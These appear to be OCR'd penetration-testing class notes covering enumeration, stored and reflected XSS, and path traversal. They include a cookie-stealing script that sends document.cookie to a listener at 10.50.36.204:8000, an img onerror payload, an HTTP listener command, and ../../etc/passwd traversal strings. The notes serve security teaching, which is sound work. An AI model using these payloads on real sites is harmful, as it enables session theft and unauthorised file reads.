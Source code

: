     **JavaScript (JS)**
    Allows websites to interact with the client
    JavaScript runs on the client’s machine
    Coded as .JS files, or in-line of HTML

    **Enumeration**
    ROBOTS.TXT
    Legitimate surfing
    Tools:
        NSE scripts
        Nikto
        Burp suite (outside class)

    **Cross-Site Scripting (XSS) Overview**
    Insertion of arbitrary code into a webpage, that executes in the browser of visitors
    Unsanitized GET, POST, and PUT methods allow JS to be placed on websites
    Often found in forums that allow HTML

    **Stored XSS**
    Resides on vulnerable site
    Only requires user to visit page
    <img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">

    **Reflected XSS**
    Most common form of XSS
    Transient, occurs in error messages or search results
    Delivered through intermediate media, such as a link in an email
    Characters that are normally illegal in URLs can be Base64 encoded
    
    Below is what you see, but the server will decode as name=abc123
    http://example.com/page.php?name=dXNlcjEyMw

    **Useful JavaScript Components**
        Proof of concept (simple alert):
            <script>alert('XSS');</script>

        Capturing Cookies
            document.cookie
        Capturing Keystrokes
            bind KEYDOWN and KEYUP
        Capturing Sensitive Data
            document.body.innerHTML

     **host http server**       
    python3 -m http.server

    **malicious java script with linops ip**
    <script>document.location="http://10.50.36.204:8000/"+document.cookie;</script>

    **Server-Side injection**
    Directory Traversal/Path Traversal
    Ability to read/execute outside web server’s directory
    Uses ../../ (relative paths) in manipulating a server-side file path
    ex: view_image.php?file=../../etc/passwd
    ex: use a bunch of ../../../../../etc/passwd (if you don't know where ya are)
    ex: ../../../../etc/hosts (view ip addresses -> names)((flags, areas to pivot etc)
